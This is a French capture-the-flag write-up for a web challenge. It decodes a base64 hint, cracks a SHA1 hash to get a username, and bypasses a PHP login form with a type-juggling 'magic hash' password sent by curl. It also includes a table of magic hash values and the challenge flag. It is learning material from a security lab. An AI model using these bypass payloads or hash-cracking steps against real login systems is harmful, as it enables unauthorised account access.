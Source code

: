 * * *
# La porte du couvent
> (Web, 400 points )
---
## Challenge :
> Dans leur élan pour secourir les dernières victimes du célèbre Gayeman DJAKPATAGLO, les cyber-amazones font face à la porte d'un couvent impénétrable. http://hackerlab.bj:8001/web03/web03_frjofjzefzf.html

En accédant au lien du challenge, on se voit présenter un formulaire.

<img src="Images/porte-couvent-1.png">

On remarque que, peu importe ce qu'on entre dans le champ  ```username``` et ```password```, on est redirigé sur une **URL** nous présentant une chaîne encodée en base64: **dm91cyBuJ8OqdGVzIHBsdXMgbG9pbiBkdSBsb2dpbjogZTc3OTFlY2U5ZGE1YTZlM2YwYWE2YmE3NzUzNmZiYzZiNzc4MDg5NQ==** . Pour décoder cette chaîne, il suffira d'exécuter la commande ci-dessous :
```console 
root@Y3HW3_Hack3r:~/HackerLab2019# base64 -d <<< "dm91cyBuJ8OqdGVzIHBsdXMgbG9pbiBkdSBsb2dpbjogZTc3OTFlY2U5ZGE1YTZlM2YwYWE2YmE3NzUzNmZiYzZiNzc4MDg5NQ=="
vous n'êtes plus loin du login: e7791ece9da5a6e3f0aa6ba77536fbc6b7780895
```
La chaîne décodée est : **vous n'êtes plus loin du login: e7791ece9da5a6e3f0aa6ba77536fbc6b7780895**. Ce message nous présente à la fin un hash. L'objectif serait maintenant de chercher à avoir le contenu du hash. Pour le faire, nous utiliserons un célèbre outil ```buster``` (https://github.com/s0md3v/Hash-Buster) , qui pourra nous aider à obtenir le contenu du ```hash```. 
```console 
root@Y3HW3_Hack3r:~/HackerLab2019# buster -s "e7791ece9da5a6e3f0aa6ba77536fbc6b7780895"
_  _ ____ ____ _  _    ___  _  _ ____ ___ ____ ____
|__| |__| [__  |__|    |__] |  | [__   |  |___ |__/
|  | |  | ___] |  |    |__] |__| ___]  |  |___ |  \  v3.0

[!] Hash function : SHA1
amazone

```
En un rien de temps, nous obtenons la chaîne se retrouvant derrière le ```hash``` : **amazone**.  
Cette chaîne obtenue représente donc notre ```login``` pour le formulaire de la page http://hackerlab.bj:8001/web03/web03_frjofjzefzf.html. L'objectif suivant serait maintenant de retrouver le ```mot de passe``` qui va avec ce ```login```. Pour l'obtenir, nous avions testé un **bruteforce** par **"POST"** sur le formulaire avec le célèbre outil ```hydra```, mais sans succès. Nous avions aussi essayé une **injection SQL** pour bypasser l'authenfication, mais sans succès aussi. En fin de compte, nous avions donc cherché à avoir un coup de main en cliquant sur le ```hint``` du challenge. L'indice dévoilé est en effet : **php type struggle**. Des recherches effectuées à partir de cet indice nous amène sur cette page https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Type%20Juggling. Cette page parle du **PHP Juggling type and magic hashes**. Méthode pouvant permettre de ```bypasser des comparaisons en php```. En fouillant un peu la page, on retrouve quelques extraits de **chaînes de caractères magiques** pouvant bypasser des comparaisons php utilisant ```==```.

| Hash | “Magic” Number / String    | Magic Hash                                    | Found By      |
| ---- | -------------------------- |:---------------------------------------------:| -------------:|
| MD5  | 240610708                  | 0e462097431906509019562988736854              | [@spazef0rze](https://twitter.com/spazef0rze/status/439352552443084800) |
| SHA1 | 10932435112                | 0e07766915004133176347055865026311692244      | Independently found by Michael A. Cleverly & Michele Spagnuolo & Rogdham |
| SHA-224 | 10885164793773          | 0e281250946775200129471613219196999537878926740638594636 | [@TihanyiNorbert](https://twitter.com/TihanyiNorbert/status/1138075224010833921) |
| SHA-256 | 34250003024812          | 0e46289032038065916139621039085883773413820991920706299695051332 | [@TihanyiNorbert](https://twitter.com/TihanyiNorbert/status/1148586399207178241) |
| SHA-256 | TyNOQHUS                | 0e66298694359207596086558843543959518835691168370379069085300385 | [@Chick3nman512](https://twitter.com/Chick3nman512/status/1150137800324526083)


Nous allons donc essayer ses différents **“Magic” Number / String** comme ```password``` pour voir le résultat.
```console 
root@Y3HW3_Hack3r:~/HackerLab2019# curl -X POST http://hackerlab.bj:8001/web03/loginform.php --data "username=amazone&password=240610708"
Flag: CTF_NOMDEHACKERCEQUETUESFORT
```
En testant le premier **“Magic” Number / String** ( **240610708** ) comme ```password```, on obtient notre ```flag```.

```Flag ```: **CTF_NOMDEHACKERCEQUETUESFORT**
